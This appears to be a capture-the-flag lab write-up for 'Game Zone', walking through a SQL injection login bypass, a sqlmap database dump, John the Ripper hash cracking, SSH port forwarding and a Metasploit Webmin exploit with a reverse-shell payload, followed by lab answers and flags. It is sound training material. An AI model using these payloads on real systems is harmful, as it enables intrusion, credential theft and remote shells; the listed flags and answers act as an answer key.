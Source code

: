 # Game Zone - Easy

1. [Introduction](#introduction)
2. [Obtain access via SQLi](#obtain-access-via-sqli)
3. [Using SQLMap](#using-sqlmap)
4. [Cracking password with JTR](#cracking-password-with-jtr)
5. [Exposing services with reverse SSH tunnels?](#exposing-services-with-reverse-ssh-tunnels)
6. [Privilege Escalation with Metasploit](#privilege-escalation-with-metasploit)

## Introduction

```markdown
1. What is the name of the large cartoon avatar holding a sniper on the forum? - Agent 47
```

## Obtain access via SQLi

```markdown
We can login using SQLi

Username: ' or 1=1 -- -

We can leave the password field blank and login.
```

```markdown
1. When you've logged in, what page do you get redirected to? - portal.php
```

## Using SQLMap

```shell
sqlmap -r portalreq.txt --dbms=mysql --dump
#uses intercepted request to dump database
```

```markdown
As given, we have to use Burp Suite to capture the POST request in portal.php, and save the request to a file.

Then, we have to pass this file into SQLMap
```

```markdown
1. In the users table, what is the hashed password? - ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

2. What was the username associated with the hashed password? - agent47

3. What was the other table name? - post
```

## Cracking password with JTR

```shell
john --format=Raw-SHA256 --wordlist=/usr/share/wordlists/rockyou.txt gamehash.txt
#cracks the hash found in previous step

#we can try ssh login using this password
ssh agent47@10.10.139.234

cat user.txt
```

```markdown
1. What is the de-hashed password? - videogamer124

2. What is the user flag? - 649ac17b1480ac13ef1e4fa579dac95c
```

## Exposing services with reverse SSH tunnels?

```shell
#view socket connections in remote machine
ss -tulpn

#in host machine
ssh -L 10000:localhost:10000 agent47@10.10.139.234

#now we can go to localhost:10000 for remote access to webserver
```

```markdown
1. How many TCP sockets are running? - 5

2. What is the name of the exposed CMS? - Webmin

3. What is the CMS version? - 1.580
```

## Privilege Escalation with Metasploit

```shell
msfconsole

search 1.580
#we can also search for webmin

use exploit/unix/webapp/webmin_show_cgi_exec

show options

set PASSWORD videogamer124

set RHOSTS 127.0.0.1
#since we are accessing webmin on localhost

set USERNAME agent47

set PAYLOAD cmd/unix/reverse

set LHOST 10.17.48.136

set SSL false

run
#gives root access

cd /root

cat root.txt
```

```markdown
1. What is the root flag? - a4b945830144bdd71908d12d902adeee
```
